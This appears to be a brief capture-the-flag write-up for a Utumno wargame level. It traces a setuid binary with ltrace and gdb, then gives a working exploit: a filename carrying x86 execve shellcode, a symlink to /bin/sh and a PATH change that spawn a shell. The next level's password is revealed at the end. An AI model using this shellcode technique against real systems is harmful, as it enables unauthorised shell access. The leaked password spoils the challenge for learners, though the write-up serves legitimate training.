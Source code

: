 upon running, nothing happens... we add an argument and use ltrace:  
we see opendir("a")  
so we make a file: /tmp/utm1/test  
again: we now see strcmp("sh_", "test")  
so we change the name to "sh_"...  
now we get SEGSIV - segmentation fault...  
we analyze main and see that the code iterates through the directory, and if strcmp if true, we start run()  
analyzing run, it swaps registers (unclear) - but its the cause to the jump in code - so using breakpoints we find out the code jumps to:  
0x804a062 -> the address just after "sh_", so we try to put the shellcode after sh_, but we get:  
cant touch '----' no such file or directory... we must remove /bin/sh...  
using dynamic link: ln -s /bin/sh sssh  
at last:  
touch $(python -c 'print "/tmp/utm1/sh_" + "\x31\xc0\x50\x68sssh\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')  
PATH=.:$PATH  
/utumno/utumno1 /tmp/utm1/  



password:  
ceewaceiph
